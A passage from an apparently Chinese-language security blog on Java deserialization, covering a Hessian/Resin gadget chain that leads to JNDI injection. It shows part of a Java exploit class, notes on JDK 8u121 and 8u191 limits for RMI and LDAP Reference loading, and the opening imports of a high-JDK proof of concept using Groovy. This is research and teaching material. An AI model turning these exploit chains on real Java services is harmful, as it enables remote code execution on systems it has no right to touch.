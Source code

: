 ```java
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));  //通过此处来设置的0组和1组，我去，破案了
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setValue(map, "table", tbl);
        return map;
    }
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static Object unserialize(String path) throws IOException {
        FileInputStream fis = new FileInputStream(path);
        Hessian2Input hi = new Hessian2Input(fis);
        Object obj = hi.readObject();
        hi.close();
        return obj;
    }
}

```

niemad调试器发疯了，不知道什么bug一直弹计算器。噢原来是我点一遍线程就触发一遍toString啊😀

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250422230420189.png)

额，你有时候可能会发现并没有去JNDI加载JNDI_RuntimeEvil，那是因为JNDI  VersionHelper12.loadClass会先从本地类寻找。测试的时候不能把JNDI_RuntimeEvil和resin payload放到一起测

Reference形式的RMI不受JDK 8u121版本影响，仔细想想也知道，Reference 的JNDI 是实例化构造函数触发漏洞。而受到JDK 8u121版本限制的RMI是原生反序列化。如图才受到JDK 8u121限制。不懂的拉去打大板

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250423151000813.png)

所以RMI能用，构造ldap的启动会有一些麻烦，一般Reference 形式JDK <8u191 JNDI都用RMI协议

能不能用SnakeYaml完成以上调用呢？我也试了一下，主要是SnakeYaml无法调用静态方法，所以不行



## 高版本JDK POC

既然网上这么多ELProcesser的POC，那我给个resin利用Grovvy打JNDI高版本的POC吧

```java
package org.exploit.third.resin;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.naming.ResourceRef;

import javax.naming.*;
import javax.naming.spi.DirectoryManager;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.lang.reflect.Array;
```